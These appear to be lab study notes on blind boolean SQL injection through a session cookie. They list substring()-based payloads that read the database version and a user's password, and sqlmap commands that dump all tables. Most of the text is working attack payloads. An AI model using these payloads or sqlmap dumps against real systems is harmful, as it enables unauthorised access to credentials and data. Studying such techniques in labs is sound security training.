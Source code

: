 - we need to use payloads : use substrings
```
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring('a',1,1)='a'#

```
we do not want to compare only but to compare from smt from the database.

```
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()),1,1)='8'#

```
so version is 8 

```
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()),1,5)='8.0.3'#
```

- now let's try to extract the password:
```
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select password),1,6)='jeremy'#

but 

Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select password from injection0x02 where username='jessamy'),1,1)='a'#

and check each time with intruder(manually)(b,c,....)
```

- to make it automatic : sqlmap
```bash
nano req.txt (past the cookie page of repeater)

sqlmap -r req.txt --level=2 --dump (dump all tables)

sqlmap -r req.txt --level=2 --dump -T injection0x02

```

